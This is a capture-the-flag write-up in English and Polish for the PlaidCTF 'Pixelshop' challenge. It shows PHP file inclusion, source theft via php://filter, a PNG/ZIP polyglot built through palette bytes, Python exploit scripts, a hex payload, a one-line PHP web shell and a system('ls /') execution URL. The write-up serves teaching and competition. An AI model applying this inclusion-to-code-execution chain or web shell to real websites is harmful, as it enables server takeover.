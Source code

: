 ## Pixelshop (Web, 300 points, 15 solves)

	Everyone loves pixel art, and thanks to PixelShop you can now create pixel art from your browser! Exciting!

###ENG
[PL](#pl-version)

We get access to a webpage where we can upload icons (max 32x32) or even draw an icon with built-in editor.
Those icons are then placed in /uploads directory with random name as png files.
First thing we notice is the navigation on the page handled by a GET parameter `op`, eg `http://pixelshop.pwning.xxx/?op=upload`
We try to put some other values there and we determine that it's a file inclusion for `.php` files.
We use php filter-wrapper `php://filter/read=convert.base64-encode/resource=` to force base64 encoding of the included pages eg:

`http://pixelshop.pwning.xxx/?op=php://filter/read=convert.base64-encode/resource=index`

This way we extract all source files (see [src](src) directory).
Sources analysis brings us to conclusion that:

- The page only includes `.php` files because the extension is always added, and it's a new PHP so no null-byte poisoning
- Any uploaded image will always have `.png` extension
- We can only upload a proper image to the webpage
- The image is stripped from metadata so no way to smuggle something in exif
- We can manually set palette and image pixels using the built-in image edit feature of the webpage.

The first issue we had to overcome was the ability to include a file of our choosing.
It took us a while to figure out the approach but then we come up with an idea that if wrappers helped us once, they might help again.
There is a `zip://` wrapper which enables unzipping archives on the fly and provides access to the stored files.
This means that it's possible to run: `zip://path_to_zip#file_name` as `include()` argument and this way you can include the file from zip.
This means that if we could upload a zip archive with a php file inside to the webpage, we could then include it via:

`http://pixelshop.pwning.xxx/?op=zip://uploads/our_zip%23file_inside`

And this would unpack the archive and include `file_inside.php` file to the page.
This fixes the problem with file extension since we can control extension of the file inside zip.
But there is still problem with how to upload a zip file when we can only upload a valid image file.
It turns out a proper png file can be also a proper zip file!
And the `zip://` does not take extension into consideration so it can unzip a `.png` file just as well, as long as it's a zip file.

We couldn't simply upload our rigged png file since it would be processed by the page, but we could edit it afterwards.
The edit feature provides API to set palette and pixels using JSON. 
Palette is very interesting because it is stored in consecutive bytes inside the PNG file.
Palette needs to come as triplets (for RGB) so we prepare a function to convert given binary payload into palette bytes string:

```python
def form_payload(payload):
    b = ["{:02x}".format(ord(c)) for c in binascii.unhexlify(payload)]
    for i in range(3-(len(b) % 3)): # padding
        b.append("00")
    data = []
    for i in range(0, len(b), 3):
        data.append('"#%s%s%s"' % (b[i], b[i + 1], b[i + 2]))
    return ",".join(data)
```

And we prepare a script to edit selected uploaded png file on the webpage and to set our payload as palette bytes:

```python
def edit_file(imagekey, palette_payload):
    base_url = "http://pixelshop.pwning.xxx/"
    url = base_url + "?op=save"
    img = ",".join(['0' for i in range(32 * 32)])
    payload = form_payload(palette_payload)
    jsonData = """
     {
       "pal": [%s],
       "im":[%s]
     }
    """ % (payload, img)
    data = {"imagekey": imagekey, "savedata": jsonData}
    result = requests.post(url, data=data)
    print(result.content)
    image_url = base_url + "uploads/" + imagekey + ".png"
    png = requests.get(image_url)
    print(" ".join("{:02x}".format(ord(c)) for c in png.content))
```

We execute this with our crafted zip payload:

`payload_raw = "504B0304140000000800EE769148F0D042901D0000002100000005000000732E706870B3B12FC82850508977770D89564F548FD5803293D46335ADEDED78B900504B01021400140000000800EE769148F0D042901D00000021000000050000000000000001002000000029000000732E706870504B0506000000000100010033000000690000000000"`

And we get an image file uploaded on the server:

![](exploit.png) 

Which can be also unzipped, and inside stores `s.php` file with a simple PHP shell inside

```php
<?php $_GET['a']($_GET['b']); ?>
```

With this file safely uploaded in the server as `847cf5ebb78615e61ab646189e3ffbff138801ad.png` we can finally run:

`http://pixelshop.pwning.xxx/?a=system&b=ls /&op=zip://uploads/847cf5ebb78615e61ab646189e3ffbff138801ad.png%23s`

Which runs `system('ls /')`.

![](ls.png)

![](cat.png)

And we finally get the flag:

`PCTF{P1x3Ls_ar3_nIc3_but_Sh311_15_sw33ter_b271ea7f} `

###PL version

Dostajemy dostęp do strony pozwalającej na uploadowanie ikonek (max 32x32) oraz na rysowanie/edytowanie ikonek przez wbudowany edytor.
Ikonki są następnie zapisywane w katalogu /uploads z losową nazwą jako pliki png.
Pierwsza rzecz którą zauważyliśmy to fakt, że nawigacja strony odbywa się za pomocą parametru GET `op`, np. `http://pixelshop.pwning.xxx/?op=upload`
Próba umieszczania tam różnych wartości pozwala stwierdzić że ten parametr jest używany jako argument dla include plików `.php`
Wykorzystaliśmy więc filtr-wrapper php `php://filter/read=convert.base64-encode/resource=` żeby wymusić konwersje pliku do base64 przed includowaniem:

`http://pixelshop.pwning.xxx/?op=php://filter/read=convert.base64-encode/resource=index`

We ten sposób uzyskujemy źródła wszystkich plików (patrz katalog [src](src)).
Analiza źródeł pozwala stwierdzić że:

- Strona includuje tylko pliki `.php` ponieważ rozszerzenie jest zawsze doklejane, a jest to nowa wersja PHP niepodatna na null-byte poisoning
- Każdy uploadowany plik będzie miał rozszerzenie `.png`
- Możemy uploadować tylko poprawne obrazki
- Obrazek jest czyszczony z metadanych więc nie ma możliwości przmycić czegoś w exif
- Możemy ręcznie ustawić palete oraz piksele obrazu przez wbudowaną w stronę funkcje edycji ikonek

Pierwszy problem który musieliśmy pokonać to includowanie wybranego przez nas pliku.
Chwile zajęło nam dojście do rozwiązania, ale wreszcie pomyśleliśmy że skoro wrappery pomogły raz to mogą i drugi.
PHP udostępnia wrapper `zip://` który pozwala w locie odpakować archiwum i uzyskać dostęp do jego zawartości.
To oznacza że można wykonać `zip://path_to_zip#file_name` jako parametr `include()` i tym samym includować plik z wnętrza zipa.
To oznacza że gdybyśmy mogli uploadować archiwum zip z plikiem php w środku, to moglibyśmy includować ten plik przez:

`http://pixelshop.pwning.xxx/?op=zip://uploads/our_zip%23file_inside`

I to pozwoliłoby odpakować archiwum i includować plik `file_inside.php` na stronę.
To rozwiązuje problem z rozszerzeniem pliku, ponieważ kontroluejmy rozszerzenie pliku wewnąrz zipa.
Nadal pozostaje jednak problem uploadowania archiwum zip podczas gdy strona pozwala umieszczać tylko poprawne obrazki.
Okazuje się jednak że poprawny plik png może jednocześnie być poprawnym archiwum zip!
A wrapper `zip://` nie bierze pod uwagę rozszerzenia piku więc może odpakować plik `.png` o ile jest to poprawne archiwum.

Nie mogliśmy po prostu uploadować przygotowanego pliku png ponieważ zostałby przez stronę przetworzony, ale mogliśmy do edytować.
Funkcja edycji udostępniała API do ustawiania palety oraz pixeli przez JSONa.
Paleta jest wyjątkowo interesująca bo jest składowana jako kolejne bajty w pliku PNG.
Paleta była przyjmowana jako trójki (RGB) więc przygotowaliśmy funkcje konwertujacą podany payload na palete:

```python
def form_payload(payload):
    b = ["{:02x}".format(ord(c)) for c in binascii.unhexlify(payload)]
    for i in range(3-(len(b) % 3)): # padding
        b.append("00")
    data = []
    for i in range(0, len(b), 3):
        data.append('"#%s%s%s"' % (b[i], b[i + 1], b[i + 2]))
    return ",".join(data)
```

A następnie przygotowaliśmy skrypt edytowal plik png na stronie i ustawiał jako palete wybrane przez nas bajty:

```python
def edit_file(imagekey, palette_payload):
    base_url = "http://pixelshop.pwning.xxx/"
    url = base_url + "?op=save"
    img = ",".join(['0' for i in range(32 * 32)])
    payload = form_payload(palette_payload)
    jsonData = """
     {
       "pal": [%s],
       "im":[%s]
     }
    """ % (payload, img)
    data = {"imagekey": imagekey, "savedata": jsonData}
    result = requests.post(url, data=data)
    print(result.content)
    image_url = base_url + "uploads/" + imagekey + ".png"
    png = requests.get(image_url)
    print(" ".join("{:02x}".format(ord(c)) for c in png.content))
```

Wykonujemy ten skrypt z przygotowanym payloadem zip:

`payload_raw = "504B0304140000000800EE769148F0D042901D0000002100000005000000732E706870B3B12FC82850508977770D89564F548FD5803293D46335ADEDED78B900504B01021400140000000800EE769148F0D042901D00000021000000050000000000000001002000000029000000732E706870504B0506000000000100010033000000690000000000"`

I dostajemy na serwerze plik:

![](exploit.png) 

Który może zostać odpakowany a w środku zawiera plik `s.php` z prostym php shellem:

```php
<?php $_GET['a']($_GET['b']); ?>
```

Z tym plikiem bezpiecznie leżącym na serwerze jako `847cf5ebb78615e61ab646189e3ffbff138801ad.png` możemy wreszcie uruchomić:

`http://pixelshop.pwning.xxx/?a=system&b=ls /&op=zip://uploads/847cf5ebb78615e61ab646189e3ffbff138801ad.png%23s`

Co daje nam przykładowo `system('ls /')`.

![](ls.png)

![](cat.png)

I finalnie dostajemy flagę:

`PCTF{P1x3Ls_ar3_nIc3_but_Sh311_15_sw33ter_b271ea7f} `
